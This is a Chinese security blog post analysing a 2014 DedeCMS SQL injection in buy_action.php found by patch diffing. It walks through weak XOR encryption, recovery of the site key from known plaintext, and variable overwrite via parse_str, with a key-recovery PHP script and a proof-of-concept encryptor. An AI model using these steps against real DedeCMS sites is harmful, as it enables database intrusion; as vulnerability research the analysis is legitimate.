









# DedeCMS 最新通杀注入(buy_action.php)漏洞分析

2014/02/28 12:04 | [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

前两天，乌云白帽子提交了两个 DedeCMS 的通杀注入漏洞，闹得沸沸扬扬，25 号织梦官方发布了补丁，于是就下载最新代码回来做了对比，这里简单的分析下其中的一个注入。

## 0x01 漏洞分析

* * *

对比补丁后发现，25 号发布的源码修改了 5 个文件，其中的/member/buy_action.php 文件补丁对比如图 1。



很明显 mchStrCode 函数加强了加密强度，补丁前是简单的异或算法，但是织梦 25 号发布的补丁旨在修复乌云提交的两个注入，这个函数可能有猫腻，搜索调用该函数的文件，如图 2。



接着看到/member/buy_action.php 的 22 - 40 行代码：

```
if(isset($pd_encode) && isset($pd_verify) && md5("payment".$pd_encode.$cfg_cookie_encode) == $pd_verify)
{
    parse_str(mchStrCode($pd_encode,'DECODE'),$mch_Post);
    foreach($mch_Post as $k => $v) $$k = $v;
    $row  = $dsql->GetOne("SELECT * FROM #@__member_operation WHERE mid='$mid' And sta=0 AND product='$product'");
    if(!isset($row['buyid']))
    {
        ShowMsg("请不要重复提交表单!", 'javascript:;');
        exit();
    }
    if(!isset($paytype))
    {
        ShowMsg("请选择支付方式!", 'javascript:;');
        exit(); 
    }
    $buyid = $row['buyid'];

}else{

```

注意其中的这两行代码：

```
parse_str(mchStrCode($pd_encode,'DECODE'),$mch_Post);
    foreach($mch_Post as $k => $v) $$k = $v;

```

调用了 mchStrCode 函数对$pd_encode 变量解密并通过 parse_str 函数注册变量，紧接着 foreach 遍历$mch_Post 数组，这里如果我们可以控制$pd_encode 解码后的内容，就可以注册覆盖任意变量。回过头来看 mchStrCode 函数的代码：

```
function mchStrCode($string,$action='ENCODE')
{
    $key    = substr(md5($_SERVER["HTTP_USER_AGENT"].$GLOBALS['cfg_cookie_encode']),8,18);
    $string    = $action == 'ENCODE' ? $string : base64_decode($string);
    $len    = strlen($key);
    $code    = '';
    for($i=0; $i<strlen($string); $i++)
    {
        $k        = $i % $len;
        $code  .= $string[$i] ^ $key[$k];
    }
    $code = $action == 'DECODE' ? $code : base64_encode($code);
    return $code;
}

```

看到 mchStrCode 函数中的这句代码：

```
$key = substr(md5($_SERVER["HTTP_USER_AGENT"].$GLOBALS['cfg_cookie_encode']),8,18);

```

`$_SERVER["HTTP_USER_AGENT"]+$GLOBALS['cfg_cookie_encode']`经过 md5 取 18 位字符，其中的`$_SERVER["HTTP_USER_AGENT"]`是浏览器的 USER_AGENT，我们可控，关键是这个`$GLOBALS['cfg_cookie_encode']`的来源，我们继续对比补丁，如图 3。



其中/install/index.php 的$rnd_cookieEncode 字符串的生成同样是加强了强度，$rnd_cookieEncode 字符串最终也就是前面提到的`$GLOBALS['cfg_cookie_encode']`，我们看看补丁前的代码：

```
$rnd_cookieEncode = chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('A'),ord('Z'))).chr(mt_rand(ord('a'),ord('z'))).mt_rand(1000,9999).chr(mt_rand(ord('A'),ord('Z')));

```

这段代码生成的加密密匙很有规律，所有密匙数为 26⁶*(9999-1000)=2779933068224,把所有可能的组合生成字典，用 passwordpro 暴力跑 MD5 或者使用 GPU 来破解，破解出 md5 过的密匙也花不了多少时间。 分析到此，现在的关键是如何得到经过 MD5 加密后的 18 位长度密匙。前面说过，mchStrCode 函数使用简单的异或算法，假设有明文 A，密匙 B，密文 C,则：

```
C = A ^ B
B = A ^ C 
```

也就是说 ABC 只要只其二就可以推导出剩下的一个了。怎么得到明文以及加密后的字符串呢？看到/member/buy_action.php 的 112 - 114 行代码：

```
$pr_encode = '';
    foreach($_REQUEST as $key => $val)
    {
        $pr_encode .= $pr_encode ? "&$key=$val" : "$key=$val";
    }

    $pr_encode = str_replace('=', '', mchStrCode($pr_encode));

    $pr_verify = md5("payment".$pr_encode.$cfg_cookie_encode);

    $tpl = new DedeTemplate();
    $tpl->LoadTemplate(DEDEMEMBER.'/templets/buy_action_payment.htm');
    $tpl->Display();

```

注意到$pr_encode 是从$_REQUEST 获取的，也就是说明文可控，同时$pr_encode 加密后写到 html 页面，如图 4。



## 0x02 漏洞测试

* * *

下面来测试，这里需要用到 firefox 的一个插件 User Agent Switcher 来设置 UA,安装插件后，添加一个 UA 头，其中的 User Agent 清空，description 随便填。确认保存并使用插件将浏览器的 UA 设置刚刚添加的 UA 头，即为空。如图 5。



设置为空是因为 mchStrCode 函数中的密匙含`$_SERVER["HTTP_USER_AGENT"]`，如果不为空将加大 md5 的破解难度，设置为空则密匙为固定 10 位长度。设置好 UA 后，注册并登陆会员中心，在“我的织梦”->“消费中心”->“会员升级/点卡充值”中的“购买新点卡”选择“100 点卡”，在点击购买前使用 Live HTTP header 监听，抓到的数据包如图 6。



因为$_REQUEST 获取参数是从$_GET->$_POST->$_COOKIE 依次获取，所以$pr_encode 明文的的内容为 POST 的内容“product=card&pid=1”加上 COOKIE 的内容，然后加密并打印加密后的字符串到 html 页面。同时“product=card&pid=1”刚好 18 个字符长度，对应密匙长度。点击购买后支付方式选支付宝，再次使用使用 Live HTTP header 监听，点击购买并支付提交，抓到的数据包如图 7。



将 pd_encode=后面的字符串复制下来，利用下面的代码逆出 MD5 加密后的 key：

```
<?php
$key = "product=card&pid=1";
$string = "QEJXUxNTQwlVABcGF0QMVAwFFmBwZzV1ZGd%2FJVhQQAIXWAMCBEZeBwAAUVJTAgoNA0BTBgdWBhZ8UgJVYkdTEywmDAxDdFRQVWVLUhR5c2tpAg4vVQFYVFQHBAVZUV5VBVEGAFdQBRIhVVVRfF9fXghkXllTXFRRCAdRAAUDBQUecwNUUnhZBgwMZV0IVW5rU1t1U1MNVVIOWFFRA1UEAwcEUQZaBUB1eWJpJiogcHcub2RmfA0XUwNUUldbEkoPVFkHVUMbX0BdRQdEXltYTxUKQQ";//加密的 pd_encode 字符串，需要修改
$string = base64_decode(urldecode($string));
for($i=0; $i<strlen($string); $i++)
{
        $code  .= $string[$i] ^ $key[$i];
}
echo "md5(\$key):" .$code;
?>

```



如图 8。取逆出的 key 的前 16 位破解 md5 即可，破解出密匙后就可以利用 mchStrCode 函数来加密参数，同时利用变量覆盖漏洞覆盖$GLOBALS[cfg_dbprefix]实现注入。这里给出一段 POC，代码如下：

```
<?php
$GLOBALS['cfg_cookie_encode'] = 'CaQIm1790O';
function mchStrCode($string,$action='ENCODE')
{
    $key    = substr(md5($GLOBALS['cfg_cookie_encode']),8,18);
    $string    = $action == 'ENCODE' ? $string : base64_decode($string);
    $len    = strlen($key);
    $code    = '';
    for($i=0; $i<strlen($string); $i++)
    {
        $k        = $i % $len;
        $code  .= $string[$i] ^ $key[$k];
    }
    $code = $action == 'DECODE' ? $code : base64_encode($code);
    return $code;
}

```

其中的 CaQIm1790O 就是解密出来的密匙，漏洞分析到处结束，感觉像是在记流水账，将就看看吧，最后上个本地测试 EXP 的图。如图 9。



## 0x03 总结

* * *

写到这里就算结束了，最后做个总结，漏洞由 mchStrCode 函数弱算法->导致通过获取到的明文和密文可以逆出经过 MD5 加密的密匙->破解 MD5 得到密匙->利用密匙加密数据->经过 parse_str 函数和 foreach 遍历最终覆盖表前缀变量$GLOBALS[cfg_dbprefix]实现注入，这样的漏洞并不多见，但危害很大，WAF 等防火墙很难防御，漏洞利用过程提交的数据因为加密，面目全非,和正常用户操作提交的数据并无二致。

附：官方补丁地址：[`www.dedecms.com/pl/`](http://www.dedecms.com/pl/)

原文链接：[`loudong.360.cn/blog/view/id/16`](http://loudong.360.cn/blog/view/id/16)

版权声明：未经授权禁止转载 [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [XSS 与字符编码的那些事儿 —科普文](http://drops.wooyun.org/tips/689)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)
*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [一些你可能不知道的 Flash XSS 技巧](http://drops.wooyun.org/papers/948)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)